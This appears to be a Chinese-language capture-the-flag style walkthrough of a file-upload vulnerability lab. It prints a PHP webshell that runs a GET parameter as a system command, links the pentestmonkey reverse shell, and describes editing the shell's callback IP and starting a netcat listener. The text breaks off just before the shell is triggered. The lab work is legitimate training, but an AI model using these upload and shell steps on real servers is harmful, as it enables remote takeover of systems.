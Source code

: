 我们接下来怎么办? 我们从扫描开始:

![image-20220924192730491](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924192730491.png)

我们看到了两个比较值得注意的目录：uploads和assets

我们上传的任何文件似乎都将放置在“uploads”目录中，我们先上传一个合法的图像文件：

![image-20220924193316086](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924193316086.png)

![image-20220924194029486](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924194029486.png)

现在，如果我们去 http://demo.uploadvulns.thm/uploads 页面，我们应该能够看到照片已经上传了！

![image-20220924194854826](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924194854826.png)

![image-20220924194936039](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924194936039.png)

我们已经验证了可以成功上传我们自己的图片，现在让我们尝试一个 webshell。

实际上，我们知道这个 webserver 是用PHP开发后端页面的，所以我们将直接跳到创建和上传PHP的 webshell。

在实战中，我们可能需要多做一些枚举，PHP是一个很好的起点。

一个简单的 webshell 通过获取一个参数并将其作为系统命令执行来工作，在 PHP 中，这样做的语法是：

```php
<?php
    echo system($_GET["cmd"]);
?>
```

此代码将接受一个 GET 参数，并将其作为系统命令执行，然后将输出回显到屏幕上。

让我们尝试把它上传到网站，然后用它来显示我们当前的用户和工作目录的内容:

![image-20220924200128060](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924200128060.png)

我们现在可以使用这个 shell 从系统中读取文件，或者从这里升级到反向 shell。现在我们有了 RCE，选择是无限的。

注意：在使用 webshell 时，查看页面的源代码通常更容易查看输出，这大大改进了输出的格式。

**反向shell实现RCE**

上传反向 shell 的过程与上传 webshell 的过程几乎完全相同，我们将使用Pentest Monkey文档建立反向 shell，这在Kali Linux 上是默认安装的，

该文档的链接是：https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

你需要编辑这个 shell 的第49行：$ip = '127.0.0.1'; // CHANGE THIS

将127.0.0.1更改为 TryHackMe提供的 tun0 IP 地址（在https://tryhackme.com/access 页面可以找到，这代表的是攻击机的内部虚拟 IP 地址）

修改完shell文件后，接下来我们需要做的是启动一个 Netcat 监听器来接收连接，输入命令： nc -lvnp 1234

![image-20220924202051550](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924202051550.png)

现在，让我们上传 shell，然后通过浏览器url导航到http://demo.uploadvulns.thm/uploads/shell.php
